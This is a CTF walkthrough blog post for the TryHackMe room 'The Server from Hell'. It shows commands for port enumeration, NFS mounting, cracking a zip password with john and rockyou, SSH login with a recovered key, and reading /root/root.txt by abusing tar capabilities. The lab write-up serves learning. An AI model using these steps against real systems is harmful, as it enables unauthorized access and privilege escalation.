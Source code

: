 ```yaml
---
title: "THM: The Server from Hell"
date: 2025-03-02
categories: [CTF, Red Team]
tags: [CTF, Red Team]
permalink: /posts/ctf-the-server-from-hell
image:
  path: /assets/img/thumbnails/ctf-the-server-from-hell.png
---
```




### **Walkthrough**

#### **CTF Platform**: TryHackMe  
#### **Level**: Medium  

#### **Tools Used**:

  - `nmap`
  - `netcat (nc)`
  - `zipinfo`, `zip2john`, `john`
  - `ssh`
  - `getcap`
  - `tar`

#### **Resources Used:**:

  - [Tryhackme](https://tryhackme.com/room/theserverfromhell)
  - `/usr/share/wordlists/rockyou.txt`


## **Steps for the CTF**

---

### Step 1: Enumeration
The first step in any CTF is enumeration. Start by connecting to port `1337` using `netcat`:
```bash
nc <IP> 1337
```
You will need to enumerate multiple ports to find hidden services. Use a loop to automate this process:
```bash
for i in {1..100}; do nc <IP> $i; echo ""; done
```
Once you identify an open port (e.g., `12345`), connect to it:
```bash
nc <IP> 12345
```
Perform a detailed scan of the target machine using `nmap`:
```bash
nmap -sC -sV -p111,2049 <IP>
```

### Step 2: NFS Mounting
From the `nmap` results, you may discover an NFS share. Create a directory and mount the NFS share:
```bash
mkdir nfs
sudo mount -t nfs <IP>: nfs
tree nfs
```
Inspect the contents of the mounted directory to find useful files.

### Step 3: Cracking the Backup File
Inside the NFS share, you will find a `backup.zip` file. Extract information about the zip file:
```bash
zipinfo backup.zip
```
Convert the zip file into a hash format compatible with `john`:
```bash
zip2john backup.zip > backup.hash
```
Crack the hash using `john` and the `rockyou.txt` wordlist:
```bash
john backup.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
Once cracked, extract the contents of the zip file and locate the `flag.txt`.

### Step 4: SSH Access
In the extracted files, you will find a `hint.txt` file. Read it for clues:
```bash
cat hint.txt
```
Perform another `nmap` scan to discover open SSH ports:
```bash
nmap -sV -p 2500-4500 <IP> | grep -i ssh
```
Locate the private key (`id_rsa`) and set the correct permissions:
```bash
chmod 600 id_rsa
```
Use the private key to SSH into the server as the user `hades`:
```bash
ssh -i id_rsa hades@<IP> -p 3333
```
Once logged in, spawn a proper shell:
```bash
exec '/bin/bash'
```
Locate and read the `user.txt` file:
```bash
cat user.txt
```

### Step 5: Privilege Escalation
To escalate privileges, check for capabilities assigned to binaries:
```bash
getcap -r / 2>/dev/null
```
Identify a binary with unusual capabilities (e.g., `tar`). Use it to copy the `root.txt` file from the `/root` directory:
```bash
tar -cvf flag.tar /root/root.txt
tar xf flag.tar
```
Read the contents of the `root.txt` file:
```bash
cat root/root.txt
```
